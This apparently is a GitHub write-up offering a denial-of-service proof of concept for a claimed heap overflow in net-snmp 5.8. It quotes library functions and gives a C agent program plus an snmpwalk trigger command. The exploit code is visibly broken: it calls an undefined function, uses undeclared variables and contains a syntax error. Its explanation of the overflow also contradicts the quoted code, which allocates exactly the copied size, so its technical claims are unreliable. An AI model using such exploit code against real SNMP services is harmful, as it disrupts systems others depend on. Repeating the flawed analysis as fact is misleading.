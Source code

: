 # NET-SNMP-Heap-overflow
A brief overview of Heap overflow vulnerability in NET-SNMP

Title: net-snmp 5.8 - (Authenticated) Heap overflow (DOS PoC)  
Vulnerability Discovered by: Alireza Chegini (@nimaarek)  
Exploit Author: Alireza Chegini (@nimaarek)  
Vendor Homepage: http://net-snmp.org  
Software Link: https://sourceforge.net/projects/net-snmp/files/net-snmp/5.8/  
Version: 5.8  
Tested on: Manager in the Win 8.1 and Agent in Ubuntu 18  

###### Vulnerability Description

The vulnerability is in a function called **netsnmp_memdup** that duplicates a memory block, which is in the ``` net-snmp-5.8\snmplib\tools.c``` this function uses a unsafe function called **memcpy** (SDL bans) that does not check the copy destination buffer size.
```C
void *netsnmp_memdup(const void *from, size_t size)
{
    void *to = NULL;

    if (from) {
        to = malloc(size);
        if (to)
            memcpy(to, from, size);
    }
    return to;
}
```
There are many functions in this library that call this function (netsnmp_memdup) but most of them check the copy destination buffer size but one of the functions that does not do this is called **netsnmp_table_set_add_default_row**. this function is used to adds a new default row to a table.
```C
int netsnmp_table_set_add_default_row (netsnmp_table_data_set *table_set, unsigned int column, int type, int writable, void *default_value, size_t default_value_len)
```
Definition at line 305 of file ```net-snmp-5.8\agent\helpers\table_dataset.c```
Arguments should be the table_set, column number, variable type and finally a 1 if it is allowed to be writable, or a 0 if not. If the default_value field is not NULL, it will be used to populate new valuse in that column fro newly created rows. It is copied into the storage template (free your calling argument).
On line 345 of this function, the **netsnmp_memdup** function is called:
```C
new_col = SNMP_MALLOC_TYPEDEF(netsnmp_table_data_set_storage);
if (new_col == NULL)
    return SNMPERR_GENERR;
new_col->type = type;
new_col->writable = writable;
new_col->column = column;
if (default_value) {
    new_col->data.voidp = netsnmp_memdup(default_value, default_value_len);
    new_col->data_len = default_value_len;
}
```

The Heap overflow vulnerability occurs when the memory allocated by malloc is smaller than the size of the memory block to be copied.

###### Proof of discovery

```C
/** @example poc.c

 *  this is just an example to show the vulnerability
 *  Makefile contains the following code
 *  CC=gcc

 *  OBJS = VulnAgent.o
 *  TARGETS = VulnAgent
 *  FILENAME = VulnAgent.c
 *  CFLAGS = -I. `net-snmp-config --cflags`
 *  BUILDLIBS = `net-snmp-config --libs`
 *  BUILDAGENTLIBS = `net-snmp-config --agent-libs`
 * 
 *  all: $(TARGETS)

 *  BUG: $(OBJS)
 *    $(CC) $(CFLAGS) -o $(TARGETS) $(FILENAME) $(BUILDLIBS) $(BUILDAGENTLIBS)
 *  clean:
 *    rm $(OBJS) $(TARGETS)

 *  Build (using make):
 *  make BUG

 *  Run agent:
 *  ./VulnAgent

 *  Send request from Manager:
 *  snmpwalk -v 2c -c AliReza [AgentIp] 1.3.6.1.4.1.41414242.2.2.1
 *  BOOOOOOOOOOOOOOOOOOM
 */


#include <net-snmp/net-snmp-config.h>
#include <net-snmp/net-snmp-includes.h>
#include <net-snmp/agent/net-snmp-agent-includes.h>
#include <net-snmp/net-snmp-features.h>
#include <net-snmp/config_api.h>

// ProtoTYpe
void CreateBuggyTable();

void main() {
    /* load default snmpd.conf */
    init_agent("snmpd");
    /* bug here :) */
    CreateTable();
    /*  Initialize MIBs. */
    init_mib_modules();
    /* load default snmpd.conf */
    init_snmp("snmpd");
    /* show packet detail */
    netsnmp_ds_set_boolean(NETSNMP_DS_LIBRARY_ID, NETSNMP_DS_LIB_DUMP_PACKET, 1);
    /* ...make us an Master Agent  */
    netsnmp_ds_set_boolean(NETSNMP_DS_APPLICATION_ID, NETSNMP_DS_AGENT_ROLE, 0);
    /* set snmp version to 2c */
    netsnmp_ds_set_int(NETSNMP_DS_LIBRARY_ID, NETSNMP_DS_LIB_SNMPVERSION, NETSNMP_DS_SNMP_VERSION_2c);
    /* set default port 161 */
    netsnmp_ds_set_int(NETSNMP_DS_LIBRARY_ID, NETSNMP_DS_LIB_DEFAULT_PORT, 161);
    /* set community string */
    vacm_parse_rocommunity("rocommunity", "AliReza");
    /*  Listen on default port (161).  */
    init_master_agent();
    while (1)
    {
        agent_check_and_process(1); /* 0 == don't block */
    }
    /*  At shutdown time:  */
    snmp_shutdown("snmpd");
    SOCK_CLEANUP;
}

void CreateBuggyTable() {
    int r = 0;

    // the OID we want to register our integer at.
    oid my_registration_oid[] = {1, 3, 6, 1, 4, 1, 41414242, 2, 2, 1};

    // create the table struct itself
    g_TableSet = netsnmp_create_table_data_set("nimaarekTable");

    // comment out or remove this line if no support for creation of rows
    g_TableSet->allow_creation = 1;

    // add the index
    netsnmp_table_set_add_indexes(g_TableSet, ASN_INTEGER, 0);

    // create the columns
    char ali[1024];
    netsnmp_table_set_add_default_row(g_TableSet, 1, ASN_OCTET_STR, 1, ali, 0);

    // register the table with the agent
    netsnmp_register_table_data_set(
        netsnmp_create_handler_registration(
            "nimaarekTable", NULL, my_registration_oid,
            OID_LENGTH(my_registration_oid),, HANDLER_CAN_RWRITE),
        g_TableSet, NULL);

    // create a dummy row
    row = netsnmp_create_table_data_row();

    netsnmp_table_row_add_index(1, ASN_INTEGER, r, sizeof(r));

    // now fill in the columns with incrementing integral data
    netsnmp_set_row_column(row, 2, ASN_INTEGER, r, sizeof(r));
    netsnmp_mark_row_column_writable(row, 2, 1);

    // add the row
    netsnmp_table_dataset_add_row(g_TableSet, row);

    netsnmp_register_auto_data_table(g_TableSet, NULL);
}
```
###### DEMO

![alt text](https://raw.githubusercontent.com/AlirezaChegini/NET-SNMP-Heap-overflow/master/POC.GIF "Logo Title Text 1")

###### FRIENDS

MarYam (My Lovely  :yellow_heart:
:blue_heart:
:purple_heart:
:heart:
:green_heart:)  
Amir Hesam Olfati  
AHA (GODvB?? :trollface: )  

###### SITE n FORUM
[webscene](https://webscene.ir)  
[iranled](http://www.iranled.com)
[(PRIVATE *)TEAM-IRA](127.0.0.1)

###### Contact
[twitter: @nimaarek](https://twitter.com/nimaarek/)  
[telegram: @moonshaker](https://telegram.me/moonshaker)  
[linkedin: alireza-chegini-nimaarek](https://linkedin.com/in/alireza-chegini-nimaarek)  
[E-Mail](mailto:coc.nimaarek@gmail.com)  
